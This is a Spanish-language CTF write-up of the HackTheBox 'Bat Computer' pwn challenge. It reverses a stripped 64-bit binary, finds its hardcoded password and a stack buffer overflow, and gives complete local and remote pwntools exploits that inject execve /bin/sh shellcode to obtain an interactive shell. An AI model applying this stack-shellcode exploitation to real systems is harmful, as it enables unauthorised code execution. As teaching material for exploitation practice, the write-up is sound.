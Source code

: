 ```yaml
---
title: Bat Computer - Pwn Challenge (HTB) ❤
author: sha-16
categories: [linux, binary exploitation, htb]
tags: [linux, pwn, htb, 64-bit] 
---
```


Hola a tod@s! Hoy les traigo un nuevo post de binary exploitation. 

En esta ocasión, les traigo la resolución de un BoF en un binario de 64-bit. El desafío como tal, consiste en un programa que te da dos opciones a elegir:

1. **Track Joker:** Sólo imprime un texto con una dirección de memoria (`0x7fffffffe1a4`) que hasta ahora desconocemos.
2. **Chase Joker:** Esta opción le solicita una contraseña al usuario la cual le brinda supuesto acceso al “BatMobile”.

![Untitled](/assets/img/htb/pwn/BatComputer/Untitled.png)

Posterior a esto procedemos a reversear el código con Ghidra donde identificamos la contraseña que el programa nos solicita.

Es importante mencionar que el binario se encuentra *[stripped](https://en.wikipedia.org/wiki/Strip_(Unix))*, por lo cual, en primera instancia es algo difícil de identificar los nombres de las variables y funciones:

![Untitled](/assets/img/htb/pwn/BatComputer/Untitled%201.png)

Al momento de probar la contraseña, el programa la acepta y le solicita al usuario “comandos de navegación”, los cuales al ser ingresados no tienen mucha relevancia:

![Untitled](/assets/img/htb/pwn/BatComputer/Untitled%202.png)

Luego de aplicar reversing sobre el código, ahora se logra entender más la sintaxis y el flujo principal del programa:

![Untitled](/assets/img/htb/pwn/BatComputer/Untitled%203.png)

En este punto identificamos un *buffer overflow* en la variable `nav_command`, que corresponde a los “comandos de navegación”, debido a que esta tiene asignado `76 bytes` de memoria, sin embargo, al momento de leer el contenido de dicha variable con la función `read` esta acepta `137 bytes`. Por lo cual queda toda una región de memoria disponible para sobrescribir registros.

```c
int main(void) {
		...
		undefined nav_command [76]
		...
		read(0,nav_command,1337);
		...
}
```

Para validar esto, realizamos una prueba con la herramienta `gdb-gef`. 

1. Primeramente, creamos una cadena de `137 bytes`. 
2. Luego arrancamos el programa y seleccionamos la opción `2`, donde primero colocamos la contraseña del usuario. 
3. Posterior a esto, el programa solicita los “comandos de navegación” donde ingresamos la cadena de `137 bytes` con el objetivo de sobrescribir la memoria que tiene asignada la variable `nav_command`, lo cual corresponde a `76 bytes`.
4. Hecho esto, el programa vuelve a solicitarle una opción al usuario, lo cual sólo ocurre porque este se encuentra en un bucle infinito. Para forzar al programa a retornar debemos colocar un número que no corresponda a `1`, o `2`. De esta manera, como la dirección de retorno ha sido sobrescrita, el programa arrojará un error `Segmentation fault` ************************************y nos permitirá validar la existencia del BoF. 

![Untitled](/assets/img/htb/pwn/BatComputer/Untitled%204.png)

Al listar el offset, con la instrucción `pattern offset`, se identifica que se deben introducir `84 bytes` para sobrescribir la dirección de retorno:

![Untitled](/assets/img/htb/pwn/BatComputer/Untitled%205.png)

Antes de crear el exploit, es importante checar las protecciones que posee el binario. 

Como se muestra en imagen, el programa no cuenta con `NX (no-execute)`, ni `Stack Canaries`, lo cual significa que a la hora de explotar el *buffer overflow* podemos ejecutar código de manera arbitraria en la pila:  

![Untitled](/assets/img/htb/pwn/BatComputer/Untitled%206.png)

De esta forma, empezamos creando el exploit de la siguiente manera:

```python
#!/usr/bin/python3

from pwn import process, p64

if __name__ == '__main__':
    # Starting process
    elf = process('./batcomputer')

    # Extracting leaked memory address from "nav_command" variable
    elf.recvuntil(b'> ')
    elf.sendline(b'1')
    result_option1 = elf.recvline().decode()
    nav_command_addr = p64(int(result_option1.strip('It was very hard, but Alfred managed to locate him: '),16)) # Formating to x64

    # msfvenom -p linux/x64/exec -f python -v shellcode -> shellcode
    shellcode =  b""
    shellcode += b"\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x99"
    shellcode += b"\x50\x54\x5f\x52\x5e\x6a\x3b\x58\x0f\x05"

    offset = 84 # to overwrite return address
    padding = b"\x41" * (offset - len(shellcode))

    # Final payload    
    payload = shellcode + padding + nav_command_addr

    # Sending password to get the input to exploit
    elf.recvuntil(b'> ')
    elf.sendline(b'2')
    elf.recvuntil(b'password: ')
    elf.sendline(b'b4tp@$$w0rd!')

    # Sending payload to exploit the BoF
    elf.recvuntil(b'commands: ')
    elf.sendline(payload)

    # Generating call to the overwrited return address
    elf.recvuntil(b'> ')
    elf.sendline(b'3')

    # Getting an interactive shell
    elf.interactive()
```

Al ejecutar el exploit vemos que este nos ha entregado una shell completamente interactiva, lo cual significa que nuestro shellcode se ejecutó de manera exitosa al explotar el *buffer overflow*:

![Untitled](/assets/img/htb/pwn/BatComputer/Untitled%207.png)

Habiendo hecho esto, podemos adaptar el exploit para explotar el desafío de HackTheBox de manera remota:

```python
#!/usr/bin/python3

from argparse import ArgumentParser
from pwn import remote, p64

if __name__ == '__main__':
    parser = ArgumentParser()
    parser.add_argument('--host', type=str, required=True, help='Remote host (IP/Domain)')
    parser.add_argument('--port', type=int, required=True, help='Remote port')
    args = parser.parse_args()

    # Starting connection
    connection = remote(args.host, args.port)

    # Extracting leaked memory address from "nav_command" variable
    connection.recvuntil(b'> ')
    connection.sendline(b'1')
    result_option1 = connection.recvline().decode()
    nav_command_addr = p64(int(result_option1.strip('It was very hard, but Alfred managed to locate him: '),16)) # Formating to x64

    # msfvenom -p linux/x64/exec -f python -v shellcode
    shellcode =  b""
    shellcode += b"\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x99"
    shellcode += b"\x50\x54\x5f\x52\x5e\x6a\x3b\x58\x0f\x05"

    offset = 84 # to overwrite return address
    padding = b"\x41" * (offset - len(shellcode))

    # Final payload    
    payload = shellcode + padding + nav_command_addr

    # Sending password to get the input to exploit
    connection.recvuntil(b'> ')
    connection.sendline(b'2')
    connection.recvuntil(b'password: ')
    connection.sendline(b'b4tp@$$w0rd!')

    # Sending payload to exploit the BoF
    connection.recvuntil(b'commands: ')
    connection.sendline(payload)

    # Generating calling to the overwrited return address
    connection.recvuntil(b'> ')
    connection.sendline(b'3')

    # Getting an interactive shell
    connection.interactive()
```

Una vez ejecutado, logramos obtener una terminal interactiva en el servidor, donde podemos listar el contenido del archivo `flag.txt`:

![Untitled](/assets/img/htb/pwn/BatComputer/Untitled%208.png)